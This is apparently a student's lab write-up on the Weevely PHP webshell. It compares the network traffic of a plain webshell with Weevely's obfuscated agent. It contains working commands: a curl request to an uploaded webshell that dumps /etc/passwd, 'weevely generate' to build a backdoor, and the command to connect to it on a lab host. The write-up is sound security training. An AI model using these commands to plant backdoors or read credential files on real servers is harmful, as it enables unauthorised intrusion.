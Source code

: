 # Lab 8.1 - Weevely💡

Webshells like simple-backdoor.php are effective but are not terribly stealthy. Basic IDS/IPS systems will be able to detect "shell-like" behavior by seeing content that looks like commands, prompts and sensitive files like /etc/passwd.

Wireshark Capture of traditional webshellTarget pippin with a traditional webshell (one without encryption or obfuscation). Capture a dump of /etc/passwd using Wireshark on your wg0 interface.



## Deliverable 1. Provide a screenshot that shows the relevant tcp stream similar to the one below. Create a capture filter on port 80 when you do so.

![image-20221105205902211](./images/image-20221105205902211-1667696347658-1.png)

`curl 'http://10.0.5.25/upload/navarro.php?cmd=cat+/etc/passwd'`

![img](https://lh3.googleusercontent.com/ZvriBmNKkEeZZbJwIImROwXt_9QpjiwcG6_a3YaeM6j372IH0iOQk0OSr8x_l4OpCt_6j8tq2wfIYdddEs7zLuqhfHKykU3lnaTF3VXzonbi-2LUtqfHFtiyUvOIux3Mp_zQI8txeadEByYLQ0cnP_iG3I1YD7rc_FDiJUQzqwzJ74gIBOUe6VLgd4F8gw)



## Deliverable 2. Investigate weevely (a tool in kali). Create a php agent that is uniquely named, upload the agent to pippin and carry on a session similar to the one shown in the screenshot. Provide a screenshot of your session

To generate an agent I used the following link https://null-byte.wonderhowto.com/forum/hiob-generate-web-backdoors-php-using-weevely-kali-linux-0158905/

according to null-byte.wonderhowto.com. weevely generate [password] [path for agent to be saved]



First I used the following command to generate weevely:

`weevely generate LOL /home/champuser/Desktop/week8/door3.php`

And then uploaded the file inside the ftp server:

![2](./images/2.png)

Next I used the following command to login:

`weevely http://10.0.5.25/upload/door3.php LOL`

![3](./images/3.png)

## Deliverable 3. Provide a screenshot similar to the one below that displays the encoded tcp stream from a weevely dump of /etc/passwd. Make sure to use a capture filter of port 80, to limit traffic.

![image-20221105230845175](./images/4.png)



![image-20221105230946980](./images/5.png)





## reflections:

It was great lab I learned a lot. I did not know it is that easy to generate a backdoor, I thought we have to write the code for the php backdoor.























